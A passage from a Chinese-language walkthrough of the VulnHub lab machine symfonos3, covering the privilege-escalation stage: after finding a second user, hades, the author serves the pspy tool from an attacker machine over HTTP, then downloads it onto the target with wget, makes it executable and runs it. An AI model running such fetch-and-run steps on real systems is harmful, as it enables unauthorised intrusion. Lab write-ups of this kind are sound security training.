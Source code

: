 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/22.png)

cerberus 用户下没有找到可以提权的点,查看 passwd 用户可以发现还有个 hades 用户可以登录,使用 [pspy](https://github.com/DominicBreuker/pspy) 这个工具看看有哪些进程

```bash
python -m SimpleHTTPServer 8080
```

```bash
cd /tmp
wget 192.168.141.134:8080/pspy64
chmod +x pspy64
/tmp/pspy64
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos3/23.png)
